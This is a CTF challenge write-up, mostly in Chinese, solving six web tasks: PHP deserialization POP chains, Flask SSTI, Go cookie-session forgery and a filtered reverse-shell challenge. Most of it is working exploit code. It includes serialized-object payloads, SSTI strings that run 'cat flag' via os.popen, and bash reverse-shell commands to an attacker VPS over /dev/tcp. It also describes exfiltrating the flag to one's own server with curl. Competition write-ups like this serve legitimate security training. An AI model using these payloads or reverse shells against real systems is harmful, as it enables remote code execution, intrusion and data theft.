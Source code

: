 ### babyPOP

```php
<?php
class b {
    private $i_want_2_listen_2_MaoZhongDu;
    public function __construct($a)
    {
        $this->i_want_2_listen_2_MaoZhongDu = $a;
    }
}

class c {
    public function __wakeup()
    {
        a::$Do_u_like_JiaRan = true;
    }
}

class d {
    public function __invoke()
    {
        a::$Do_u_like_AFKL = true;
        return "关注嘉然," . $this->value;
    }
}

class e {
    public function __destruct()
    {
        if (a::$Do_u_like_JiaRan) {
            ($this->afkl)();
        } else {
            throw new Error("Noooooooooooooooooooooooooooo!!!!!!!!!!!!!!!!");
        }
    }
}

$b = new b('bash -c "bash -i >& /dev/tcp/[vps-ip]/9999 0>&1"');
$c = new c();
$d = new d();
$d->value = $b;
$e = new e();
$e->afkl = $d;
echo urlencode(base64_encode(serialize([$c, $e])));
```

### babyPy
这题是个非常简单的Flask SSTI，没有任何过滤。
```
{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}} 
```

### easyGO
在附件的`main.go`中发现密钥硬编码，和静态文件目录设置错误。
```go
package main

import (
	"SYC/geek/route"

	"github.com/gin-contrib/sessions"
	"github.com/gin-contrib/sessions/cookie"
	"github.com/gin-gonic/gin"
)

func main() {
	webapp := gin.Default()
	store := cookie.NewStore([]byte("[I AM NOT GONNA TELL YOU]"))// 硬编码了密钥

	webapp.Use(sessions.Sessions("PHPSESSION", store))
	webapp.Use(gin.Recovery())

	webapp.Static("/static", "./") // 静态文件设置为当前目录，表示我们可能拿到编译出来的二进制文件。

	route.SetRoute(webapp)

	// After executing `go build` in the current directory, AFKL puts the file that was just compiled into the /app folder.
	// 由上面的话可知，编译出来的文件名叫geek
	webapp.Run(":8080")
}
```
而想要拿到flag，需要成为admin。由此可以尝试拿到二进制文件后逆向出密钥，然后session伪造。
```go
app.GET("/flag", func(c *gin.Context) {
	sess := sessions.Default(c)
	user := sess.Get("user").(string)
	if strings.Compare(user, "admin") == 0 {
		data, _ := ioutil.ReadFile("/flag")
		c.JSON(200, gin.H{
			"flag": string(data),
		})
	} else {
		c.JSON(200, gin.H{
			"No!": "U are not admin!",
		})
	}
})
```
在`http://easyGO/static/geek`拿到二进制文件后，逆向得出密钥。
![image-20211119110632343](https://i.loli.net/2021/11/19/Z5LkmJToYOI7qjD.png)

然后session伪造
```go
package main

import (
	"github.com/gin-contrib/sessions"
	"github.com/gin-contrib/sessions/cookie"
	"github.com/gin-gonic/gin"
)

func main() {
	webapp := gin.Default()
	store := cookie.NewStore([]byte("WTF_HOw_d1d_U_kn0W_Th1s"))

	webapp.Use(sessions.Sessions("PHPSESSION", store))
	webapp.Use(gin.Recovery())

	webapp.GET("/", func(c *gin.Context) {
		sess := sessions.Default(c)
		sess.Set("user", "admin")
		sess.Save()
	})

	webapp.Run(":7777")
}
```


### easyPOP

```php
<?php
class a {
    public $test;
    public function __construct($a)
    {
        $this->test = $a;
    }
}

abstract class b {
    private $b = 1;
    public function __construct($a)
    {
        $this->b = $a;
    }
}

class c extends b {
    private $call;
    protected $value;

    public function __construct($a, $b)
    {
        $this->call = $a;
        $this->value = $b;
    }

    public function setB($c) {
        parent::__construct($c);
    }
}

class d {
    public $value;

    public function __construct($a)
    {
        $this->value = $a;

    }
}

$c = new c(
    [new d("system"), "eval"],
    [new d("echo 'wtf'>./233"), "eval"],
);
$c->setB([$c, "eval"]);
$exp = new a($c);

echo base64_encode(serialize($exp));
```


### easyPy
```
http://easypy/calc?calc={{(1=&answer=1)|attr(request.args.class)|attr(request.args.mro)|attr(request.args.getitem)(2)|attr(request.args.subclasses)()|attr(request.args.getitem)(133)|attr(request.args.init)|attr(request.args.globals)|attr(request.args.getitem)(request.args.popen)(request.args.data)|attr(request.args.read)()}}&class=__class__&mro=__mro__&getitem=__getitem__&subclasses=__subclasses__&init=__init__&globals=__globals__&popen=popen&data=cat+/flag&read=read
```

### where_is_my_FUMO
```php
<?php
function chijou_kega_no_junnka($str) {
    $black_list = [">", ";", "|", "{", "}", "/", " "];
    return str_replace($black_list, "", $str);
}

if (isset($_GET['DATA'])) {
    $data = $_GET['DATA'];
    $addr = chijou_kega_no_junnka($data['ADDR']);
    $port = chijou_kega_no_junnka($data['PORT']);
    exec("bash -c \"bash -i < /dev/tcp/$addr/$port\"");
} else {
    highlight_file(__FILE__);
}
```

三个考点：
1. 使用GET请求传输数组
`http://fumo/index.php?DATA[ADDR]=vps-ip&DATA[PORT]=9999`

2. 反弹shell
这里的反弹shell只能反弹回一个没有回显的shell。
解决办法很多，可以考虑二次反弹一个完整的shell，或者绕过黑名单。
`bash -c "bash -i < /dev/tcp/ip/9999 1<&0 2<&0""`

3. 反弹shell后的文件获取
内置环境有`curl`，可以将图片外带到自己的服务器。

![flag](https://i.loli.net/2021/11/19/GEDL6O2QprJwXds.png)
